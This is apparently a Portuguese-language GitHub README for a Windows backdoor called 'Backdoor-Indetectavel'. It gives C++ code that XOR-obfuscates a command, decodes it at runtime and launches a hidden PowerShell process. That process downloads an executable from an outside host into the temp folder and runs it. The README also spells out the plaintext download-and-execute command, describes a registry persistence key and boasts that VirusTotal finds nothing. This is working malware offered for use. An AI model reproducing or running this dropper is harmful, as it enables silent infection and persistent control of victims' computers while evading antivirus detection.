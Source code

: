 # Backdoor-Indetectavel
A função do backdoor é fazer download de um executável via powershell direto na pasta e temp, em seguida executar o arquivo, tudo usando uma função onde a janela do console fica no modo em que não seja visível para o usuário. Esse método é comum em criadores de malware, onde muitos usam métodos mais complexos para evitar a detecção, como programar um arquivo onde ele fica dormindo até alguém pressionar uma tecla, ou até atingir um certo tempo, etc..  

### Criptografia Xor
Para explicar resumidamente, ele cria um array Decrypter de nosso array char e faz o xors de volta usando a chave para converter o valor criptografado para o valor original e os armazena no array de dados descriptografado que criamos anteriormente. Com a ajuda disso, se alguém executar strings, não será capaz de ver nenhum comando no executável. Eles precisariam entender a matemática e definir um ponto de interrupção adequado no Debugger. 
<br />
A equação matemática da criptografia xor que fiz foi bem simples, a chave da criptação é o tamanho da string vezes 2 divido por 100, fazendo com que a chave seja a própria string desejada. se quiser saber mais sobre criptografica xor que fiz ![clique aqui](https://github.com/andreyquerino/CriptografiaXor).

```c++
void Decrypter(char CriptXor[]) {  
    int QuantidadeString = strlen(CriptXor); // Determina o tamanho da string.
    for (int i = 0; i < QuantidadeString; i++){ 
        CriptXor[i] = CriptXor[i] ^ (QuantidadeString*2/100); // Tamanho da string * 2 / 100.
    } 
} 
```
![Encript](https://user-images.githubusercontent.com/88719652/129620582-31e6f1bc-1025-4365-8511-b6aac50d4ac0.png)

### CreateProcess
Essa parte do código cria o processo powershell usando API do windows, mas antes, A função Decrypter vai fazer a decodificação da string no tempo da execução antes de abrir o processo onde os seguintes comando são coordenados para fazer, o download do executável MrQuerino.exe via "wget", alocando na pasta temp com o nome de WelCome.exe e na sequência executalo.

> powershell.exe wget https://github.com/andreyquerino/Backdoor-Indetectavel/blob/main/MrQuerino.exe?raw=true -o C:\\windows\\temp\\WelCome.exe;start C:\\windows\\temp\\WelCome.exe

```c++
void Run() {
   char processo[] = "sltfqpkfoo-f{f#tdfw#kwwsp9,,djwkva-`ln,bmgqfzrvfqjml,Ab`hgllq.Jmgfwf`wbufo,aola,nbjm,NqRvfqjml-f{f<qbt>wqvf#.l#@9__tjmgltp__wfns__Tfo@lnf-f{f8pwbqw#@9__tjmgltp__wfns__Tfo@lnf-f{f";
   Decrypter(processo); //Função para decriptar
   STARTUPINFO pinfo; //contém detalhes de como todas as coisas devem ser cuidadas antes do início do processo 
   PROCESS_INFORMATION info; //contém detalhes sobre o novo processo, processo pai, seu processo filho, outros threads e como ele funcionará 
   memset(&pinfo, 0, sizeof(pinfo));
   CreateProcess(NULL, processo, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &pinfo, &info); //API CreateProcess que cria um processo powershell.exe usando a variável acima e canaliza a entrada, saída e erro para o HANDLE usando o & info criado acima
}
```
https://user-images.githubusercontent.com/88719652/129621046-196b336d-e839-473c-8691-9380c64cf998.mp4

### Persistência
Como bônus tive a liberdade de criar um registro de persistência no windows onde toda vez que iniciar o sistema vai abrir o executável.

![persistencia](https://user-images.githubusercontent.com/88719652/129620696-eac13434-65d5-407f-8987-7b69fdc930f2.png)


### Virus Total 
Até a data desta postagem, não teve nenhuma detecção no virus total.

![virus-total](https://user-images.githubusercontent.com/88719652/129620707-6fe47fc6-3df1-44e9-aea7-15f0c8aa3494.png)

